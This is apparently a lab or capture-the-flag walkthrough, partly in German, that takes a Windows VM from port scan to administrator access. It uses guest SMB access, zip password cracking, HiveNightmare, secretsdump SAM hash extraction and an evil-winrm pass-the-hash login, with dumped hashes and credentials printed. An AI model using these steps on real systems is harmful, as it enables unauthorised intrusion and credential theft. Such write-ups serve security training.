 url=192.168.2.221

`nmap -p- -sV -T4 192.168.2.221`

```txt
Nmap scan report for 192.168.2.221
Host is up (0.00016s latency).
Not shown: 65520 closed tcp ports (conn-refused)
PORT      STATE SERVICE       VERSION
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
5040/tcp  open  unknown
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
7680/tcp  open  pando-pub?
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49670/tcp open  msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```



```text
netexec smb 192.168.2.221             
[*] First time use detected
[*] Creating home directory structure
[*] Creating missing folder logs
[*] Creating missing folder modules
[*] Creating missing folder protocols
[*] Creating missing folder workspaces
[*] Creating missing folder obfuscated_scripts
[*] Creating missing folder screenshots
[*] Creating missing folder logs/sam
[*] Creating missing folder logs/lsa
[*] Creating missing folder logs/ntds
[*] Creating missing folder logs/dpapi
[*] Creating default workspace
[*] Initializing LDAP protocol database
[*] Initializing WMI protocol database
[*] Initializing SSH protocol database
[*] Initializing MSSQL protocol database
[*] Initializing NFS protocol database
[*] Initializing VNC protocol database
[*] Initializing SMB protocol database
[*] Initializing WINRM protocol database
[*] Initializing FTP protocol database
[*] Initializing RDP protocol database
[*] Copying default configuration file
SMB         192.168.2.221   445    VM11             [*] Windows 10 / Server 2019 Build 19041 x64 (name:VM11) (domain:VM11) (signing:False) (SMBv1:False)
```

`netexec smb 192.168.2.221 -u guest -p '' --shares`
```
SMB         192.168.2.221   445    VM11             [*] Windows 10 / Server 2019 Build 19041 x64 (name:VM11) (domain:VM11) (signing:False) (SMBv1:False) 
SMB         192.168.2.221   445    VM11             [+] VM11\guest: (Guest)
SMB         192.168.2.221   445    VM11             [*] Enumerated shares
SMB         192.168.2.221   445    VM11             Share           Permissions     Remark
SMB         192.168.2.221   445    VM11             -----           -----------     ------
SMB         192.168.2.221   445    VM11             ADMIN$                          Remoteverwaltung
SMB         192.168.2.221   445    VM11             C$                              Standardfreigabe
SMB         192.168.2.221   445    VM11             IPC$            READ            Remote-IPC
SMB         192.168.2.221   445    VM11             Share           READ           
```

smbclient //192.168.2.221/Share -N

dir
  .                                  DR        0  Tue Jan 24 15:31:51 2023
  ..                                 DR        0  Tue Jan 24 15:31:51 2023
  backup.zip                          A  7456077  Mon Jan 23 13:21:32 2023
  desktop.ini                       AHS       46  Mon Jan 23 10:06:37 2023

get backup.zip

is encrypted

zip2john backup.zip > hash.txt
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt

Password: !!!sagitario)))

Now can be unzpiped.


In Picture `IMG_2023_0135754.jpg` is username/password
Username: `gamma`
Password: `gammacanbedangerous!`


Login via rdp


Auch user.txt, with content:

`0571749e2ac330a7455809c6b0e7af90`

md5 Hash, original was: `sunshine` (Cracked with crackstation.net)

email file, with content:
```email
Return-Path: <hans.dampf@nudel.de>
Delivered-To: hans.dampf@nudel.de
Received: from mail.nudel.de
        by mail.nudel.de (Dovecot) with LMTP id QSoXKRHPz2OHCgAADJYtSw
        for <hans.dampf@nudel.de>; Tue, 24 Jul 2021 13:29:05 +0100
Received: from smtp.th-deg.de (smtp.nudel.de [132.113.135.186])
        by mail.nudel.de (Postfix) with ESMTPS id A7750899
        for <hans.dampf@nudel.de>; 24 Jul 2021 13:29:05 +0100 (CET)
Received: from [132.113.135.186] (unknown [132.113.135.186])
        by smtp.nudel.de (Postfix) with ESMTPSA id 20B642FB
        for <IT-Support@nudel.de>; Tue, 24 Jul 2021 13:29:05 +0100 (CET)
Message-ID: <24d3cd53-5837-c304-4fa5-0f8c0ad51f7d@nudel.de>
Date: Tue, 24 Jul 2021 13:29:03 +0100
MIME-Version: 1.0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:102.0) Gecko/20100101
 Thunderbird/102.6.1
To: Hans Dampf <hans.dampf@nudel.de>
From: Tony Stark <IT-Support@nudel.de>
Subject: Info
Content-Type: text/plain; charset=UTF-8; format=flowed
Content-Transfer-Encoding: 8bit
X-PMX-Version: 6.4.9.2830568, Antispam-Engine: 2.7.2.2107409, Antispam-Data: 2023.1.24.122118, AntiVirus-Engine: 5.94.0, AntiVirus-Data: 2022.10.20.5940000

Hey Hans,

hattet ihr auch Probleme mit der neuen Schwachstelle? Bei uns hats so richtig gekracht. 
Weiß aber nicht mehr genau wie das hieß. Irgendwas mit Nightmare, aber nicht das mit den Druckern.

-- 
Mit freundlichen Grüßen
Tony Stark

Avengers
IT Lead, Billionare, Philanthrop, Playboy

Avengers Tower
NY, 246th Tech Ave
```


Search `nightmare vulnerability 2021` online results in the one with printers

So `nightmare vulnerability 2021 -print` gets rid of this and shows the other vulnerability


[Exploit](https://github.com/GossiTheDog/HiveNightmare?tab=readme-ov-file)

Transfer via updog and excute it. Upload the files to updogs webgui.


`secretsdump.py -system SYSTEM-2024-03-25 -sam SAM-2024-03-25 LOCAL`

```txt
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Target system bootKey: 0x55221814cab6e0d4381e170922897261
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:a02a6c668a8d88c7c005330914d92b99:::
Gast:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:11b2b18a97f7b0e8e88324091af010b8:::
gamma:1001:aad3b435b51404eeaad3b435b51404ee:754d78b3c7386a01f152c9fcab6c910d:::
[*] Cleaning up...
```


evil-winrm -H a02a6c668a8d88c7c005330914d92b99 -i 102.168.2.221 -u Administrator